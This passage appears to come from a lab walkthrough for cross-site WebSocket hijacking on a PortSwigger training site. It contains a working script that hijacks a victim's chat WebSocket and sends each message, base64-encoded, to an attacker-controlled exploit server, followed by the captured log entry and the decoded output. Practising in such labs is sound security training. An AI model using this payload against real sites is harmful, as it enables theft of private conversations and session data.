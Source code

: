 Confirm the CSWSH vulnerability.

> NOTE: We will of course bypass Burp's pro-only feature __Collaborator__ and will do it on our exploit server's Access log.

Go to the exploit server and use the following template in the "Body" section:

```
<script>
    var ws = new WebSocket("wss://YOUR-LAB-ID.web-security-academy.net/chat");
    ws.onopen = function (event) {
        ws.send("READY");
    };
    ws.onmessage = function (event) {
        var message = event.data;
        fetch("https://exploit-YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit?message=" + btoa(message));
    };
</script>
```

The above script will send `GET` requests to the exploit server in our lab with `message` query parameters and request body as a `base64` encoded value.

Click "Store" and then "View exploit". Check "Access log" and see a `GET` request there with the following message parameter value:

```
GET /exploit?message=eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9 HTTP/1.1
```

Go to __Decoder__ in Burp and decode it from `base64`:

```
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

This means that we successfully opened a new live chat connection with the target site, however the chat history exfiltrated is for the brand new session, which isn't particularly useful. 

Go to the __Proxy__ > __HTTP history__ tab and find the WebSocket handshake request (`GET /chat`) that was initiated by your script. Notice, that your session cookie was not sent with the request. If you look at its response:

```
HTTP/1.1 101 Switching Protocol
Set-Cookie: session=jww8cFO8yWpsaqLrzaPRhPnYdsjVFiUc; Secure; HttpOnly; SameSite=Strict
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: cmnpq9mcMw79pDx1iDahmKizoe4=
Content-Length: 0
```

The session cookie is different from yours and `SameSite` is explicitly set to `Strict` by the website. This prevents the browser from including these cookies in cross-site requests. 

In __Proxy__ > __HTTP History__ you will also notice that responses to some `/resources` requests include a different URL: `https://cms-YOUR-LAB-ID.web-security-academy.net` as a value to `Access-Control-Allow-Origin` header. This is a sibling domain. Visit this URL in Burp's browser and see a login form. 
